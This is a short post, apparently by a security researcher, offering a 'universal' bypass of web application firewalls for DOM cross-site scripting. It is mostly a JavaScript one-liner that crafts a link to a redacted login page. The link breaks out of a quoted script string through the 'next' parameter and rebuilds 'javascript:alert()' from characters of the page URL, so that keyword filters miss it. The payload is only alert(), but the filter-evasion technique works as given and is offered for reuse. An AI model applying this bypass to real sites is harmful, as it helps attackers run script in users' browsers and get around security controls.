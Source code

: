 ## Universal WAF BYPASS for DOM XSS
I think such bypass should work on lot's of firewalls, here's the logical bypass I use :DD

For example if reflection is inside `<script>..."REFLECTION"...</script>`

You can use this script below, after modifying it, to get the crafted with payload link.

```
console.log(`view-source:https://REDACTEDHOSTNAME/login/?abcdefghijklmopqrstuvwxyz=0&next=mySafeStr"-(()=>{`+encodeURIComponent(`let k=location.href;location=k[40]+k[31]+'Vas'+k[33]+'rip'+k[49]+k[5]+k[31]+'l'+k[35]+'rt%28%29'`)
+`})()-"` )
```
